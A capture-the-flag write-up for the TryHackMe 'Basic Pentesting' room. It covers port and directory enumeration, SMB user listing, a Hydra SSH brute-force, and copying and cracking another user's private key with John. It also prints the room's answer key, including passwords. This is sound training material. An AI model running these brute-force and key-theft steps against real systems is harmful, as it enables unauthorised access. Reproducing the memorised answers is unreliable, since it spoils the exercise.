










# TryHackMe: Basic Pentesting Write-up
**Author:** Youssef EL Bour



This is a comprehensive walkthrough for the [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) room on TryHackMe. This machine allows you to practice web app hacking and privilege escalation.

## Task 1: Enumeration

### 1. Find the services exposed by the machine
We start by identifying the open ports and services running on the target machine using Nmap.

```bash
nmap -sC -sV -p- <TARGET_IP>
```


The scan reveals several open ports: SSH (22), HTTP (80, 8080), SMB (139, 445), and Apache Jserv (8009).

### 2. What is the name of the hidden directory on the web server?
Next, we enumerate the web server on port 80 to find hidden directories using Gobuster.

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt
```


**Answer:** `development`

## Task 2: User brute-forcing to find the username & password

### 1. Enumerate the machine to find any vectors for privilege escalation / Other users
Since SMB ports are open, we can use `enum4linux` to extract potential usernames from the system.

```bash
enum4linux -a <TARGET_IP>
```

    
Scrolling down in the output, we find the local users on the machine.



**Answer (Other user):** `kay`  
**Answer (Username):** `jan`

### 2. What is the password?
Knowing we have a user named `jan` and an exposed SSH service, we can attempt a brute-force attack using Hydra and the `rockyou.txt` wordlist.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```


**Answer:** `armando`

### 3. What service do you use to access the server?
We used SSH to brute-force the credentials and access the machine.

**Answer:** `SSH`

## Task 3: Privilege Escalation

### 1. If you have found another user, what can you do with this information?
Let's log in via SSH as `jan`:
```bash
ssh jan@<TARGET_IP>
```
    
Navigating to `kay`'s home directory reveals that their `.ssh` folder is readable by our current user. We can view their private RSA key.

```bash
cd /home/kay/.ssh
ls -la
cat id_rsa
```


We copy this key to our local machine, save it as `private_key`, and prepare to crack its passphrase using John the Ripper. First, we convert it using `ssh2john`.

```bash
ssh2john private_key > private_key.hash
```


Next, we run John with the `rockyou.txt` wordlist.

```bash
john private_key.hash --wordlist=/usr/share/wordlists/rockyou.txt
john --show private_key.hash
```


The passphrase for the SSH key is `beeswax`.

### 2. What is the final password you obtain?
We can now log in as `kay` using the cracked private key.

```bash
chmod 600 private_key
ssh -i private_key kay@<TARGET_IP>
```

Once logged in as `kay`, checking the home directory reveals a backup file named `pass.bak`.

```bash
cat pass.bak
```


**Answer:** `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---
**Room Completed!**
